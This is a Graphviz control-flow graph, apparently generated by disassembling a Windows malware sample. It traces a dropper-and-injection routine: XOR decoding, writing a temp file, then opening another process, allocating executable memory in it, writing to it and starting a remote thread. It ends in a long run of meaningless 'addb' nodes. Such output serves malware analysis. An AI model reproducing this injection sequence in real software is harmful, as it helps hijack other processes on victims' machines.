a0x03708aa7jne_0x03708a88 -> a0x03708a88pushl_edi [color="#000000",label="T"];
a0x03708aa7jne_0x03708a88 -> a0x03708aa9popa_ [color="#000000",label="F"];
a0x03708aa9popa_ -> a0x03708aaaret [color="#000000"];
a0x03708aaaret -> a0x037010a4movl_0x3701090UINT32_edi [color="#000000"];
a0x037010a4movl_0x3701090UINT32_edi -> a0x037010a9movl_0xdUINT32_ecx [color="#000000"];
a0x037010a9movl_0xdUINT32_ecx -> a0x037010aexorb_cl_ediecx_ [color="#000000"];
a0x037010aexorb_cl_ediecx_ -> a0x037010b1loop_0x037010ae [color="#000000"];
a0x037010b1loop_0x037010ae -> a0x037010aexorb_cl_ediecx_ [color="#000000",label="T"];
a0x037010b1loop_0x037010ae -> a0x037010b3xorl_0x6f9e8d7cUINT32_0x0370108c [color="#000000",label="F"];
a0x037010b3xorl_0x6f9e8d7cUINT32_0x0370108c -> a0x037010bdxorl_0x4f1e7d9cUINT32_0x03701088 [color="#000000"];
a0x037010bdxorl_0x4f1e7d9cUINT32_0x03701088 -> a0x037010c7call_0x03701064 [color="#000000"];
a0x037010c7call_0x03701064 -> GetCommandLineA_kernel32_dll [color="#000000"];
GetCommandLineA_kernel32_dll -> a0x037010cdmovl_eax_esi [color="#000000"];
a0x037010cdmovl_eax_esi -> a0x037010cfmovl_0x371919fUINT32_edi [color="#000000"];
a0x037010cfmovl_0x371919fUINT32_edi -> a0x037010d4lodsb_ds_esi__al [color="#000000"];
a0x037010d4lodsb_ds_esi__al -> a0x037010d5stosb_al_es_edi_ [color="#000000"];
a0x037010d5stosb_al_es_edi_ -> a0x037010d6testb_al_al [color="#000000"];
a0x037010d6testb_al_al -> a0x037010d8jne_0x037010d4 [color="#000000"];
a0x037010d8jne_0x037010d4 -> a0x037010d4lodsb_ds_esi__al [color="#000000",label="T"];
a0x037010d8jne_0x037010d4 -> a0x037010damovl_0x3718b83UINT32_edi [color="#000000",label="F"];
a0x037010damovl_0x3718b83UINT32_edi -> a0x037010dfpushl_edi [color="#000000"];
a0x037010dfpushl_edi -> a0x037010e0pushl_0x80UINT32 [color="#000000"];
a0x037010e0pushl_0x80UINT32 -> a0x037010e5call_0x03701058 [color="#000000"];
a0x037010e5call_0x03701058 -> GetTempPathA_kernel32_dll [color="#000000"];
GetTempPathA_kernel32_dll -> a0x037010ebpushl_edi [color="#000000"];
a0x037010ebpushl_edi -> a0x037010ecpushl_0x0UINT32 [color="#000000"];
a0x037010ecpushl_0x0UINT32 -> a0x037010f1pushl_0x3701088UINT32 [color="#000000"];
a0x037010f1pushl_0x3701088UINT32 -> a0x037010f6pushl_edi [color="#000000"];
a0x037010f6pushl_edi -> a0x037010f7call_0x03701060 [color="#000000"];
a0x037010f7call_0x03701060 -> GetTempFileNameA_kernel32_dll [color="#000000"];
GetTempFileNameA_kernel32_dll -> a0x037010fdpushl_0x1001UINT32 [color="#000000"];
a0x037010fdpushl_0x1001UINT32 -> a0x03701102movb_0xffffff87UINT8_0x03718d9f [color="#000000"];
a0x03701102movb_0xffffff87UINT8_0x03718d9f -> a0x03701109pushl_0x3718d9fUINT32 [color="#000000"];
a0x03701109pushl_0x3718d9fUINT32 -> a0x0370110epushl_edi [color="#000000"];
a0x0370110epushl_edi -> a0x0370110fcall_0x03701020 [color="#000000"];
a0x0370110fcall_0x03701020 -> OpenFile_kernel32_dll [color="#000000"];
OpenFile_kernel32_dll -> a0x03701115movl_eax_esi [color="#000000"];
a0x03701115movl_eax_esi -> a0x03701117pushl_0x7863UINT32 [color="#000000"];
a0x03701117pushl_0x7863UINT32 -> a0x0370111ccall_0x03708984 [color="#000000"];
a0x0370111ccall_0x03708984 -> a0x03708984pushl_esi [color="#000000"];
a0x03708984pushl_esi -> a0x03708985call_0x03701024 [color="#000000"];
a0x03708985call_0x03701024 -> a_hwrite_kernel32_dll [color="#000000"];
a_hwrite_kernel32_dll -> a0x0370898bpushl_esi [color="#000000"];
a0x0370898bpushl_esi -> a0x0370898ccall_0x03701028 [color="#000000"];
a0x0370898ccall_0x03701028 -> a_lclose_kernel32_dll [color="#000000"];
a_lclose_kernel32_dll -> a0x03708992pushl_0x0UINT32 [color="#000000"];
a0x03708992pushl_0x0UINT32 -> a0x03708997call_0x03701050 [color="#000000"];
a0x03708997call_0x03701050 -> GetModuleHandleA_kernel32_dll [color="#000000"];
GetModuleHandleA_kernel32_dll -> a0x0370899dmovl_eax_0x03718d8f [color="#000000"];
a0x0370899dmovl_eax_0x03718d8f -> a0x037089a2movl_eax_edi [color="#000000"];
a0x037089a2movl_eax_edi -> a0x037089a4addl_0x3cedi__edi [color="#000000"];
a0x037089a4addl_0x3cedi__edi -> a0x037089a7movl_0x50edi__eax [color="#000000"];
a0x037089a7movl_0x50edi__eax -> a0x037089aamovl_eax_0x03718d87 [color="#000000"];
a0x037089aamovl_eax_0x03718d87 -> a0x037089afpushl_0x0UINT32 [color="#000000"];
a0x037089afpushl_0x0UINT32 -> a0x037089b4pushl_0x3701090UINT32 [color="#000000"];
a0x037089b4pushl_0x3701090UINT32 -> a0x037089b9call_0x03701077 [color="#000000"];
a0x037089b9call_0x03701077 -> FindWindowA_user32_dll [color="#000000"];
FindWindowA_user32_dll -> a0x037089bftestl_eax_eax [color="#000000"];
a0x037089bftestl_eax_eax -> a0x037089c1jne_0x037089d0 [color="#000000"];
a0x037089c1jne_0x037089d0 -> a0x037089d0pushl_0x3718d8bUINT32 [color="#000000",label="T"];
a0x037089d0pushl_0x3718d8bUINT32 -> a0x037089d5pushl_eax [color="#000000"];
a0x037089d5pushl_eax -> a0x037089d6call_0x0370107b [color="#000000"];
a0x037089d6call_0x0370107b -> GetWindowThreadProcessId_user32_dll [color="#000000"];
GetWindowThreadProcessId_user32_dll -> a0x037089dcpushl_0x03718d8b [color="#000000"];
a0x037089dcpushl_0x03718d8b -> a0x037089e2pushl_0x0UINT32 [color="#000000"];
a0x037089e2pushl_0x0UINT32 -> a0x037089e7pushl_0x1f0fffUINT32 [color="#000000"];
a0x037089e7pushl_0x1f0fffUINT32 -> a0x037089eccall_0x03701054 [color="#000000"];
a0x037089eccall_0x03701054 -> OpenProcess_kernel32_dll [color="#000000"];
OpenProcess_kernel32_dll -> a0x037089f2movl_eax_0x03718d97 [color="#000000"];
a0x037089f2movl_eax_0x03718d97 -> a0x037089f7pushl_0x40UINT32 [color="#000000"];
a0x037089f7pushl_0x40UINT32 -> a0x037089fcpushl_0x3000UINT32 [color="#000000"];
a0x037089fcpushl_0x3000UINT32 -> a0x03708a01pushl_0x03718d87 [color="#000000"];
a0x03708a01pushl_0x03718d87 -> a0x03708a07pushl_0x03718d8f [color="#000000"];
a0x03708a07pushl_0x03718d8f -> a0x03708a0dpushl_0x03718d97 [color="#000000"];
a0x03708a0dpushl_0x03718d97 -> a0x03708a13call_0x0370105c [color="#000000"];
a0x03708a13call_0x0370105c -> VirtualAllocEx_kernel32_dll [color="#000000"];
VirtualAllocEx_kernel32_dll -> a0x03708a19movl_eax_0x03718d93 [color="#000000"];
a0x03708a19movl_eax_0x03718d93 -> a0x03708a1epushl_0x3718d9fUINT32 [color="#000000"];
a0x03708a1epushl_0x3718d9fUINT32 -> a0x03708a23pushl_0x03718d87 [color="#000000"];
a0x03708a23pushl_0x03718d87 -> a0x03708a29pushl_0x03718d8f [color="#000000"];
a0x03708a29pushl_0x03718d8f -> a0x03708a2fpushl_0x03718d93 [color="#000000"];
a0x03708a2fpushl_0x03718d93 -> a0x03708a35pushl_0x03718d97 [color="#000000"];
a0x03708a35pushl_0x03718d97 -> a0x03708a3bcall_0x0370103c [color="#000000"];
a0x03708a3bcall_0x0370103c -> WriteProcessMemory_kernel32_dll [color="#000000"];
WriteProcessMemory_kernel32_dll -> a0x03708a41pushl_0x3718d9fUINT32 [color="#000000"];
a0x03708a41pushl_0x3718d9fUINT32 -> a0x03708a46pushl_0x0UINT32 [color="#000000"];
a0x03708a46pushl_0x0UINT32 -> a0x03708a4bpushl_0x03718d8f [color="#000000"];
a0x03708a4bpushl_0x03718d8f -> a0x03708a51leal_0x03708aab_eax [color="#000000"];
a0x03708a51leal_0x03708aab_eax -> a0x03708a57pushl_eax [color="#000000"];
a0x03708a57pushl_eax -> a0x03708a58pushl_0x0UINT32 [color="#000000"];
a0x03708a58pushl_0x0UINT32 -> a0x03708a5dpushl_0x0UINT32 [color="#000000"];
a0x03708a5dpushl_0x0UINT32 -> a0x03708a62pushl_0x03718d97 [color="#000000"];
a0x03708a62pushl_0x03718d97 -> a0x03708a68call_0x03701040 [color="#000000"];
a0x03708a68call_0x03701040 -> CreateRemoteThread_kernel32_dll [color="#000000"];
CreateRemoteThread_kernel32_dll -> a0x03708a6etestl_eax_eax [color="#000000"];
a0x03708a6etestl_eax_eax -> a0x03708a70je_0x03708aab [color="#000000"];
a0x03708a70je_0x03708aab -> a0x03708aabpushl_0x3718b83UINT32 [color="#000000",label="T"];
a0x03708aabpushl_0x3718b83UINT32 -> a0x03708ab0call_0x03701034 [color="#000000"];
a0x03708ab0call_0x03701034 -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x03708ab6pushl_0x370108cUINT32 [color="#000000"];
a0x03708ab6pushl_0x370108cUINT32 -> a0x03708abbpushl_eax [color="#000000"];
a0x03708abbpushl_eax -> a0x03708abccall_0x03701038 [color="#000000"];
a0x03708abccall_0x03701038 -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x03708ac2pushl_0x371919fUINT32 [color="#000000"];
a0x03708ac2pushl_0x371919fUINT32 -> a0x03708ac7call_eax [color="#000000"];
a0x03708ac7call_eax -> a0x88880000addb_al_eax_ [color="#000000"];
a0x88880000addb_al_eax_ -> a0x88880002addb_al_eax_ [color="#000000"];
a0x88880002addb_al_eax_ -> a0x88880004addb_al_eax_ [color="#000000"];
a0x88880004addb_al_eax_ -> a0x88880006addb_al_eax_ [color="#000000"];
a0x88880006addb_al_eax_ -> a0x88880008addb_al_eax_ [color="#000000"];
a0x88880008addb_al_eax_ -> a0x8888000aaddb_al_eax_ [color="#000000"];
a0x8888000aaddb_al_eax_ -> a0x8888000caddb_al_eax_ [color="#000000"];
a0x8888000caddb_al_eax_ -> a0x8888000eaddb_al_eax_ [color="#000000"];
a0x8888000eaddb_al_eax_ -> a0x88880010addb_al_eax_ [color="#000000"];
a0x88880010addb_al_eax_ -> a0x88880012addb_al_eax_ [color="#000000"];
a0x88880012addb_al_eax_ -> a0x88880014addb_al_eax_ [color="#000000"];
a0x88880014addb_al_eax_ -> a0x88880016addb_al_eax_ [color="#000000"];
a0x88880016addb_al_eax_ -> a0x88880018addb_al_eax_ [color="#000000"];
a0x88880018addb_al_eax_ -> a0x8888001aaddb_al_eax_ [color="#000000"];
a0x8888001aaddb_al_eax_ -> a0x8888001caddb_al_eax_ [color="#000000"];
a0x8888001caddb_al_eax_ -> a0x8888001eaddb_al_eax_ [color="#000000"];
a0x8888001eaddb_al_eax_ -> a0x88880020addb_al_eax_ [color="#000000"];
a0x88880020addb_al_eax_ -> a0x88880022addb_al_eax_ [color="#000000"];
a0x88880022addb_al_eax_ -> a0x88880024addb_al_eax_ [color="#000000"];
a0x88880024addb_al_eax_ -> a0x88880026addb_al_eax_ [color="#000000"];
a0x88880026addb_al_eax_ -> a0x88880028addb_al_eax_ [color="#000000"];
a0x88880028addb_al_eax_ -> a0x8888002aaddb_al_eax_ [color="#000000"];
a0x8888002aaddb_al_eax_ -> a0x8888002caddb_al_eax_ [color="#000000"];
a0x8888002caddb_al_eax_ -> a0x8888002eaddb_al_eax_ [color="#000000"];
a0x8888002eaddb_al_eax_ -> a0x88880030addb_al_eax_ [color="#000000"];
a0x88880030addb_al_eax_ -> a0x88880032addb_al_eax_ [color="#000000"];
a0x88880032addb_al_eax_ -> a0x88880034addb_al_eax_ [color="#000000"];
a0x88880034addb_al_eax_ -> a0x88880036addb_al_eax_ [color="#000000"];
a0x88880036addb_al_eax_ -> a0x88880038addb_al_eax_ [color="#000000"];
a0x88880038addb_al_eax_ -> a0x8888003aaddb_al_eax_ [color="#000000"];
a0x8888003aaddb_al_eax_ -> a0x8888003caddb_al_eax_ [color="#000000"];
a0x8888003caddb_al_eax_ -> a0x8888003eaddb_al_eax_ [color="#000000"];
a0x8888003eaddb_al_eax_ -> a0x88880040addb_al_eax_ [color="#000000"];
a0x88880040addb_al_eax_ -> a0x88880042addb_al_eax_ [color="#000000"];
a0x88880042addb_al_eax_ -> a0x88880044addb_al_eax_ [color="#000000"];
a0x88880044addb_al_eax_ -> a0x88880046addb_al_eax_ [color="#000000"];
a0x88880046addb_al_eax_ -> a0x88880048addb_al_eax_ [color="#000000"];
a0x88880048addb_al_eax_ -> a0x8888004aaddb_al_eax_ [color="#000000"];
a0x8888004aaddb_al_eax_ -> a0x8888004caddb_al_eax_ [color="#000000"];
a0x8888004caddb_al_eax_ -> a0x8888004eaddb_al_eax_ [color="#000000"];
a0x8888004eaddb_al_eax_ -> a0x88880050addb_al_eax_ [color="#000000"];
a0x88880050addb_al_eax_ -> a0x88880052addb_al_eax_ [color="#000000"];
a0x88880052addb_al_eax_ -> a0x88880054addb_al_eax_ [color="#000000"];
a0x88880054addb_al_eax_ -> a0x88880056addb_al_eax_ [color="#000000"];
a0x88880056addb_al_eax_ -> a0x88880058addb_al_eax_ [color="#000000"];
a0x88880058addb_al_eax_ -> a0x8888005aaddb_al_eax_ [color="#000000"];
a0x8888005aaddb_al_eax_ -> a0x8888005caddb_al_eax_ [color="#000000"];
a0x8888005caddb_al_eax_ -> a0x8888005eaddb_al_eax_ [color="#000000"];
a0x8888005eaddb_al_eax_ -> a0x88880060addb_al_eax_ [color="#000000"];
a0x88880060addb_al_eax_ -> a0x88880062addb_al_eax_ [color="#000000"];
a0x88880062addb_al_eax_ -> a0x88880064addb_al_eax_ [color="#000000"];
a0x88880064addb_al_eax_ -> a0x88880066addb_al_eax_ [color="#000000"];
}
